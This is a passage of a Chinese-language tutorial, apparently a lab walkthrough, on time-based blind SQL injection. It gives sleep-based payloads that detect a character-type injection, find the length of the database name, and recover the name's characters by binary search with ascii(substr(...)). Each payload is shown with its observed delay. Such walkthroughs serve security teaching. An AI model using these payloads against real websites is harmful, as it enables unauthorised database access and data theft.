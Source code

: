 
### **5.猜解数据**



同样采用二分法。



还可以使用**基于时间的盲注**：



### **1.判断是否存在注入，注入是字符型还是数字型**



> 输入1’ and sleep(5) #，感觉到明显延迟；

> 

> 输入1 and sleep(5) #，没有延迟；



说明存在字符型的基于时间的盲注。



### **2.猜解当前数据库名**



首先猜解数据名的长度：



> 1’ and if(length(database())=1,sleep(5),1) # 没有延迟

> 

> 1’ and if(length(database())=2,sleep(5),1) # 没有延迟

> 

> 1’ and if(length(database())=3,sleep(5),1) # 没有延迟

> 

> 1’ and if(length(database())=4,sleep(5),1) # 明显延迟



说明数据库名长度为4个字符。



接着采用二分法猜解数据库名：



> 1’ and if(ascii(substr(database(),1,1))>97,sleep(5),1)# 明显延迟

> 

> …

> 

> 1’ and if(ascii(substr(database(),1,1))<100,sleep(5),1)# 没有延迟
